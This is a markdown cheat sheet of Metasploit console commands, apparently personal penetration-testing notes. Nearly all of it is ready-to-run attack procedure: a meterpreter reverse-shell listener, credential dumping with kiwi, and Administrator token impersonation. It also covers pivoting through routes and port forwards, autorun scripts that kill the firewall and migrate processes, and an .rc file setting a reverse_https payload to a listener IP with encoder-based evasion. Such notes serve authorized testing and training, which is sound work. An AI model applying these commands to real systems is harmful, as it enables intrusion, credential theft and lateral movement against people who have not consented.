 # MSFConsole
#### Start listener
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Background the sessions
```
Background
```

#### List sessions
```
sessions
```

#### Kill session
```
sessions -k <id>
```

#### Enter sessions
```
sessions -i <id>
```

#### Load kiwi module to dump creds and print help for kiwi
```
load kiwi
help kiwi
```

#### Load PowerShell and drop into shell
```
load powershell
powershell_shell
```

#### Set route
```
route add <subnet / host ip> <subnetmask> <session id>
```

#### Autoroute modulle
```
use multi/manage/autoroute
```

#### Create port forward
```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

#### After setting routes use bind shells

#### Metasploit imperssonate
```
Load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
```

## Autorun script
### Set solo module as autorunscript
```
set AutoRunScript windows/gather/enum_logged_on_users
set AutoRunScript post/windows/manage/migrate
```

#### Create a .rc file and use it like:
```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

```
set AutoRunScript multi_console_command -rc /root/autoruncommands.rc
```

## Metasploit automation run automatic script
#### Create a .rc file
```
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

#### Start metasploit with .rc file
```
sudo msfconsole -r setup.rc
```
